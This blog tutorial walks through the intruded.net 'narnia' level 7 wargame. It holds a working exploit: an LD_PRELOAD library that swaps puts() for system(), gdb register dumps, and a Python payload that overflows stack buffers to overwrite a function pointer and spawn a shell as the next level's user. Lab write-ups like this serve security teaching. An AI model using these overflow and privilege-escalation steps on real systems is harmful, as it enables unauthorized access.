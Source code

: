 Title: intruded.net, narnia: level 7
Date: 2011/09/25 00:32
Tags: intruded.net, narnia, x86, gdb, stack, LD_PRELOAD, shared library
Author: Ken Ko
Category: tutorials

I feel like a GOT/PLT redirect for this one.

[codebox 1]

Not sure how this will go, though, because even though we have the makings of a return-to-libc with the 2 strcpy() calls and the function pointer--there isn't a system() call that was compiled into the binary. The PLT only has useless functions such as printf(), seteuid(), etc.--nothing to spawn a shell.


So if we can't overwrite the address of the pointer to a local system() call, let's overwrite the puts() function entirely.

<code>
level7@narnia:/tmp$ cat puts-system.c
#include <stdlib.h>

int puts(char *s)
{
        system (s);
}
level7@narnia:/tmp$ gcc -fPIC -shared -o puts-system.so puts-system.c
level7@narnia:/tmp$
</code>

The <strong>-fPIC</strong> is required when creating a <em>shared</em> library because we need gcc to give us position-independent-code. That should explain the gcc parameters. 

Alright, let's create a test program to see if this even works for the simplest case:

<code>
level7@narnia:/tmp$ cat puts.c
#include <stdlib.h>

int main () {
        puts("/bin/sh");
}
level7@narnia:/tmp$ gcc puts.c
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" ./a.out
sh-3.1$ 
</code>

<em>Nice.</em>

Will this naive approach work with the level7 binary?

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" /wargame/level7 \"/bin/sh\" hi
"/bin/sh"
</code>

Nope. Not at all. What does gdb have to say about this?

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" gdb -q /wargame/level7
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) b system
Function "system" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y

Breakpoint 1 (system) pending.
(gdb) r hi hi
Starting program: /wargame/level7 hi hi
Error in re-setting breakpoint 2:
Function "system" not defined.

Breakpoint 2, 0xb7ee5990 in system () from /lib/tls/i686/cmov/libc.so.6
(gdb) i r
eax            0xbffffa18       -1073743336
ecx            0x1      1
edx            0xffffffff       -1
ebx            0xb7fe7650       -1208060336
esp            0xbffff9dc       0xbffff9dc
ebp            0xbffff9e8       0xbffff9e8
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0xb7ee5990       0xb7ee5990 <system>
eflags         0x246    [ PF ZF IF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Indeed, the system() call is on the stack; but it looks like the address of system() starts with 0xb7 while the code is checking for 0xbf to be the leading byte. Of course, then, we never reach the desired code path. 

So now the issue is that we need system() to be local to the stack, with a 0xbf address. Let's use gdb to try and solve this issue:

<code>
(gdb) disas main
Dump of assembler code for function main:
. . .
0x0804862c <main+312>:  mov    0xfffffffc(%ebp),%eax
0x0804862f <main+315>:  and    $0xff000000,%eax
0x08048634 <main+320>:  cmp    $0xbf000000,%eax
0x08048639 <main+325>:  jne    0x8048647 <main+339>
. . .
(gdb) b *0x0804862f 
. . .
(gdb) r hi `python -c 'print "A"*8 + "BBBBBBBB" + "\x90\x59\xee\xb7"*2'`
. . .
Breakpoint 3, 0x0804862f in main ()
(gdb) i r
eax            0xb7ee5990       -1209116272
. . .
sh: BBBBBBBBYî·Yî·: command not found
</code>

Looks like we have eax pointing, now, to our system() call. This is progress! Even better, we see that the system() call is trying to execute the contents of buffer b1. Once we make this call a /bin/sh, we should be victorious. 

The buffers are all 8 bytes white, so we should count:

/bin/sh <-- 7 characters
So what we want is "/bin/sh " <-- note the extra space at the end. We can't null terminate the string because then strcpy will stop copying!

<code>
int *fp, i;
char b1, b2;
</code>

That's the order of the variable declarations, so the stack should look something like this:

[codebox 2]

The values we want:

<code>
b2: don't care
b1: /bin/sh
i: don't care
fp: system()
</code>

Give this a shot:

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" /wargame/level7 hi `python -c 'print "A"*8 + "/bin/sh " + "#" * 4 + "\x90\x89\xee\xb7"'`
/wargame/level7 b1 b2
</code>

Looks like the binary doesn't recognize one of the parameters--most likely our python call--because it's spitting out the usage help. Try it again, but with quotations around:

<code>
level7@narnia:/tmp$ LD_PRELOAD="./puts-system.so" /wargame/level7 hi "`python -c 'print "A"*8 + "/bin/sh " + "#" * 4 + "\x90\x89\xee\xb7"'`"
sh-3.1$ whoami
level8
</code>

Awesome possum. Being able to overwrite functions with our own definitions using the linker is pretty cool.

What we now have:

<code>
b2: AAAAAAAA
b1: /bin/sh
i: ####
fp: system()
</code>

Final level!
